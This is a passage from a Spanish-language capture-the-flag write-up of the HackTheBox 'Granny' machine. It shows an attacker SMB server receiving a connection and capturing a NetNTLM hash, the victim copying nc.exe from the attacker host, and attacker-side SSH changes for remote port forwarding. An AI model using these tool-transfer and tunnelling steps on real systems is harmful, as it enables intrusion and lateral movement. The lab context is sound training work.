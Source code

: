 Antes de ejecutar el programa, vamos a transferir el archivo `nc.exe` a la máquina víctima:

```bash
❯ impacket-smbserver smbFolder $(pwd)
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.15,1046)
[*] AUTHENTICATE_MESSAGE (HTB\GRANNY$,GRANNY)
[*] User GRANNY\GRANNY$ authenticated successfully
[*] GRANNY$::HTB:aea8a26a51f500d900000000000000000000000000000000:4502c04aa604ecadea0a4a49d39d2102c825440e40371d4a:aaaaaaaaaaaaaaaa
[-] Unknown level for query path info! 0x109
```

```bash
copy \\10.10.14.16\smbFolder\nc.exe nc.exe
copy \\10.10.14.16\smbFolder\nc.exe nc.exe
        1 file(s) copied.

dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 424C-F32D

 Directory of C:\WINDOWS\Temp\Privesc

09/21/2021  04:39 AM    <DIR>          .
09/21/2021  04:39 AM    <DIR>          ..
09/21/2021  01:02 AM            28,160 nc.exe
09/21/2021  01:27 AM           646,384 plink.exe
               2 File(s)        674,544 bytes
               2 Dir(s)   1,324,756,992 bytes free

C:\WINDOWS\Temp\Privesc>
```

Debemos tener en cuenta que necesitamos hacer algunos cambios en nuetra máquina de atacante; primero editamos el archivo `/etc/ssh/sshd_config` modificando los sigueintes parámetros:

- Port 2222
- PermitRootLogin yes

Cambiamos el puerto default del servicio SSH debido a que la plataforma de HackTheBox tiene unas reglas que no permite el puerto 22 para hacer *Remote Port Forwarding* y permitimos el login del usuario **root**.

Una vez hecho esto, levantamos y reiniciamos el servicio SSH; así como también validamos que no tenemos el puerto 445 listado en `netastat`:
